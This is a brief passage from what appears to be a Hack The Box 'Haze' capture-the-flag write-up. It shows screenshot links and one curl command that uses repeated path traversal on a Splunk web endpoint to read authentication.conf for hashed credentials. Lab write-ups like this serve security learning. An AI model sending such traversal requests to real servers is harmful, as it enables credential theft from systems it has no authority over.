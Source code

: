 ![Screenshot 2025-03-31 at 8.08.53 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.08.53_PM.png)

Reads the authentication configuration file (authentication.conf) that may contain hashed credentials

```bash
curl -s "http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf"
```

![Screenshot 2025-03-31 at 8.24.12 PM.png](/assets/Images/HTB_Haze/Screenshot_2025-03-31_at_8.24.12_PM.png)
